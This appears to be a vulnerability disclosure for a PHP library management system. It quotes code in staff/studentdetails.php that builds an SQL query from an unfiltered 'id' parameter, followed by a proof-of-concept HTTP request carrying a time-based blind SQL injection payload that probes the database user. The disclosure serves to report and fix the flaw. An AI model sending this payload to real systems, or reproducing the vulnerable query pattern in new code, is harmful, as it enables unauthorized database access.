 ### Vulnerability file address

`staff/studentdetails.php` from line 106

The incoming $rno variable is not filtered, there is sql injection

```php
......
......
......
 $rno=$_GET['id'];
$sql="select * from LMS.user where RollNo='$rno'";
$result=$conn->query($sql);
$row=$result->fetch_assoc();   
......
......
......
```

### POC

not exists any precondition

```http
GET /staff/studentdetails.php?id=1'+or+if(ascii(user())=115,sleep(0.5),0)%23 HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

Blind sql injection succeed

![image-20220702181539777](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702181539.png)



Blind sql injection failed

![image-20220702181554560](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702181554.png)